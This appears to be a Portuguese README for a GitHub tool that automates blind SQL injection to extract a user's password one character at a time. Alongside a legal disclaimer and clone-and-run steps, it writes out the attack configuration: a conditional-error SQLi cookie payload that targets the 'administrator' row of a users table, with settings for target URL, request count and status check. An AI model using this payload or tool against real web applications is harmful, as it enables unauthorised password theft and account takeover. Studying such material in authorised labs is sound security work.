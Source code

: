 ## 📄 Licença

Este projeto está licenciado sob a licença MIT. Consulte o arquivo [LICENSE](LICENSE) para mais detalhes.

# Blind SQL Injection Exploit

O repositório contém um script Python para explorar vulnerabilidades de **Blind SQL Injection** em uma aplicação web. O script é projetado para descobrir senhas de usuários de forma incremental, testando caracteres um por um.

⚠️ Aviso Legal

Este script é apenas para fins educacionais e de teste em ambientes controlados. Nunca use este código em sistemas sem permissão explícita. O uso indevido pode resultar em consequências legais.

## 📋 Requisitos ##

- Python 3
- Biblioteca `requests` instalada (`pip install requests`)

## 🚀 Como Usar ##

1. **Clone o repositório:**
   ```bash
   git clone https://github.com/LuizManezzi/tools_fuzzer.git
   cd tools_fuzzer/
   
2. **Configure o exploit com os parametros de ataque**
-- Linha 97:
"Configurações do ataque<br>
url = "https://url.com"<br>
max_requests = 1000 -- Valor limite da requisição no pool<br>
status_check = 500 -- Status de retorno<br>
cookie_template = "'||(SELECT CASE WHEN SUBSTR(password,$1,1)='$2' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'" -- SQLi<br>
tamanho_senha = 20  # Defina o comprimento estimado da senha" -- Tamanho da senha. "

3. **Execute o exploit:**
   ```bash
   python3 fuzzer_for_blind_sqli.py
